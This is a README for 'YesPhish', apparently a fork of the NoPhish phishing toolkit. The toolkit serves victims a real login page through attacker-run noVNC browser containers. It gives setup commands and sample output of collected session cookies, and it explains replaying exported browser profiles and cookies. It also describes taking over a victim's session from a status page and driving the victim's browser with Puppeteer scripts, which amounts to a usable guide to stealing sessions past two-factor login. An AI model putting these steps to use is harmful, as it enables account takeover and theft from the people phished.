 # YesPhish

This is a fork of [NoPhish](https://github.com/powerseb/NoPhish) (by `powerseb`) with improvements and bugfixes.

## Changes in this fork

* Refactored `setup.sh` to make it more modular & easier to maintain
* Moved files that are mostly static into the Docker images instead of the setup.sh script
* Added the `-x` option to spawn firefox with remote debugging port exposed to the host at address `localhost:9XXX` to allow for the use of browser automation (for example with puppeteer)
* Added the `-l` option to allow the user to choose a language to be set as a custom preference
* Builtin puppeteer scripts to control the target browser & log cookies / navigation information
* Fixed some conditions that caused NoPhish to not load properly sometimes due to processes being spawn before the desktop environment was up
* Set the cookie collector loop to every 5 seconds, which is more realistic than 60
* Colored & cleaner output
* Other miscellaneous bugfixes

## Usage

All existing features of NoPhish [should] work the same way. The following features were added:

### Language

The `-l` option is just a helper to set the preferred languages of the browser.

It can be set to a list of values - as long as it doesn't include spaces.

Example:
```bash
$ ./setup.sh -u 1 -t https://target -d hello.local -l es,ru
```

### Editing Preferences

This was a bit annoying in NoPhish (it required changing 4 places in the code). In YesPhish you can just edit the `templates/user.header.js` with your desired values and rerun `setup.sh`.

### RemoteDebuggingPort

(under testing)

With YesPhish it's possible to control the target browser remotely. Just toggle the `-x` flag:

```bash
$ ./setup.sh -u 1 -t https://target -d hello.local -x true
[...]
[~] Generating configuration file
[+] Configuration file generated
[-] Starting containers
———— vnc-user1 (from image vnc-docker) [1/2] ————
[+] RemoteDebuggingPort: 9001
[...]
———— vnc-muser2 (from image vnc-docker) [1/2] ————
[+] RemoteDebuggingPort: 9002
[...]
```

For each user container, a port between `9001` and `9999` is mapped to the host.

This is the remote debugging port of the browser running in that container, and can be used to connect and control the browser with tools such as [Puppeteer](https://github.com/puppeteer/puppeteer):

```bash
$ npm install puppeteer
```

For example, the `scripts/control.js` file is a Puppeteer script that connects to your browser running in the container and spawns a REPL where you can freely interact with the `browser` object:

```bash
$ node scripts/control.js 9001
[+] Attempting to connect to: ws://127.0.0.1:9001/session
[+] Successfully connected to Firefox!
[+] Use the `browser` object in the JS shell below to control the browser.
> (await browser.pages())[0].url()
'https://www.google.com/'
> (await browser.pages())[0].goto("https://www.yahoo.com")
Promise {
  <pending>,
  [Symbol(async_id_symbol)]: 758,
  [Symbol(trigger_async_id_symbol)]: 751
}
```

Another example is the `scripts/log.js` which can be used to log accessed pages and cookies set during the navigation:

```bash
$ node scripts/log.js 9001
[TODO]
```

> [!IMPORTANT]  
> Be aware that some targets, such as Google, use magic tricks to detect when your browser is being controlled by a third-party, and *block the sign-in attempt* before the victim can even enter the password, so this technique won't work for phishing these targets.
> If I knew how these tricks worked by the time I wrote this tool I would have fixed it - there are many open issues in repos related to Puppeteer about this behavior, but none of the answers seemed to work as of 05/2025.
> If you find a solution let me know :-) 

# NoPhish
 
Another phishing toolkit which provides an docker and noVNC based infrastructure. The whole setup is based on the initial article of [mrd0x](https://mrd0x.com/bypass-2fa-using-novnc/) and [fhlipzero](https://fhlipzero.io/blogs/6_noVNC/noVNC.html).

A detailed description of the setup can be found here - [Another phishing tool](https://powerseb.github.io/posts/Another-phishing-tool/)

## Installation

Ensure that docker is installed and working.

Install the required python modules:

```console
pip install lz4
```

Install the setup (which will create the required docker images):

```console
setup.sh install
```

## Execution

The setup offers the following parameters:

```console
Usage: ./setup.sh -u No. Users -d Domain -t Target
         -u Number of users - please note for every user a container is spawned so don't go crazy
         -d Domain which is used for phishing
         -t Target website which should be displayed for the user
         -e Export format
         -s true / false if ssl is required - if ssl is set crt and key file are needed
         -c Full path to the crt file of the ssl certificate
         -k Full path to the key file of the ssl certificate
         -a Adjust default user agent string
         -z Compress profile to zip - will be ignored if parameter -e is set
         -p Additional URL parameters - if not set generic URL will be generated

```

A basic run looks like the following:

```console
./setup.sh -u 4 -t https://accounts.google.com -d hello.local 
```

During the run the following overview provides a status per URL how many cookies or session informations have been gathered.

```console
...
[-] Starting Loop to collect sessions and cookies from containers
    Every 60 Seconds Cookies and Sessions are exported - Press [CTRL+C] to stop..
For the url http://hello.local/v1/oauth2/authorize?access-token=b6f13b93-1b51-41c4-b8b4-b07932a45bd6 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v2/oauth2/authorize?access-token=fd54dbec-c057-4f46-8657-c0283e5661d9 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v3/oauth2/authorize?access-token=9d606939-b805-4c65-9e98-2624de2cd431 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v4/oauth2/authorize?access-token=84b8d725-7e87-439e-8629-53332092b68f :
-  0  cookies have been collected.
-  5  session cookies have been collected.
```

Please note that the tool will export all cookies / session information even when it is not related to a successfull login.

Further you can also directly interact with the tool on the status page - `http(s)://%DOMAIN%:65534/status.php`. There you have the possability to disconnect the user and directly take over the session. 

In the current version of the tool for every user two containers are spawned - one for desktops and one for mobile devices. Based on the user agent the target gets redirected to suitable container. The output of the mobile container is named with a leading "m" (e.g. mphis1-ffprofile). 

## Using profile export
If you are using the complete FireFox profile export, you can just call firefox with -profile like that:

On Windows:
`& 'C:\Program Files\Mozilla Firefox\firefox.exe' -profile <PathToProfile>\phis1-ffprofile\`

On Linux:
`firefox-esr -profile <PathToProfile>/phis1-ffprofile --allow-downgrade`

Everything is getting restored, including the latest site.

Please note by default you need to extract the zip archive or set the parameter `-z` to `false`. If the export format `-e simple` is chosen two json files will be generated which can be used with Cookiebro which is available for [Firefox](https://addons.mozilla.org/de/firefox/addon/cookiebro/) and [Chrome](https://chrome.google.com/webstore/detail/cookiebro/lpmockibcakojclnfmhchibmdpmollgn).


## CleanUp

During a run the script can be terminated with `ctrl` + `c` - all running docker container will then be deleted. To fully remove the setup run `setup.sh cleanup`.
